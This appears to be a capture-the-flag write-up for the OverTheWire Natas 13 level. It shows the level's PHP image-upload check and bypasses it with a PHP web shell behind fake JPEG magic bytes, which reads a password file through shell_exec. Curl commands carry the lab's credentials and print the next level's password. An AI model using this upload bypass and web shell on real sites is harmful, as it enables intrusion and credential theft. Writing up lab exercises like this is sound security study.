 ```
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```


Same as the prev level, but I actually need to convince it that my file is an image...
From https://www.php.net/manual/en/function.exif-imagetype.php:
"When a correct signature is found, the appropriate constant value will be returned otherwise the return value is false"
So it's not checking the extension, but the header's magic...
According to wiki, the magic is "FF D8 FF EE".

```
abs@MacBookPro OverTheWire % echo '\xFF\xD8\xFF' > nani.php && cat >> nani.php <<'EOF'
<?php
echo shell_exec("cat /etc/natas_webpass/natas14");
?>
EOF
```

```
abs@MacBookPro OverTheWire % curl "natas13.natas.labs.overthewire.org/" -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC -s -F "filename=nani.php" -F "uploadedfile=@nani.php" | grep php
The file <a href="upload/gavovcbgos.php">upload/gavovcbgos.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

```
abs@MacBookPro OverTheWire % curl "natas13.natas.labs.overthewire.org/upload/gavovcbgos.php" -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC -s 
???
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```
